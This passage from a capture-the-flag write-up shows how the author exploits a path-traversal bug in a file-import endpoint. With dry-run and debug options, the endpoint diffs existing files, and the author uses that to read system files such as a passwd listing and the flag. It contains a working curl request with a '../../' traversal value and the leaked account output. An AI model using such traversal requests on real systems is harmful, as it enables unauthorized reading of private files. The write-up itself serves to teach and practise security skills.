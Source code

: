 ```sh
< vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
< ntp:x:123:123:NTP:/var/empty:/sbin/nologin
< smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
< guest:x:405:100:guest:/dev/null:/sbin/nologin
< nobody:x:65534:65534:nobody:/:/sbin/nologin
< svn:x:100:101:svn:/var/svn:/sbin/nologin
<
-----
> test
>
=====
```

Oh, alright. Enabling `debug` gives the same warning but also enables a feature of displaying a diff between the file that is going to be overwritten and the new one. So I actually have an aribtrary file reading capabilities.

Guessing that the flag is saved at `/flag` again, it should be easy to read:

```sh
tal@tal:~$ echo "test" > flag && tar -czf flag.tar.gz flag
tal@tal:~$ curl -X POST "https://path-less-traversed-web.h4ck.ctfcompetition.com/import?submission=../../&dryRun=true&debug=true" -F "attachments=@flag.tar.gz"

WARNING: file ../../flag already exists and would get overwritten (enable debug to see differences)
showing existing and new contents:

# ...
```

And the flag is in my hands :)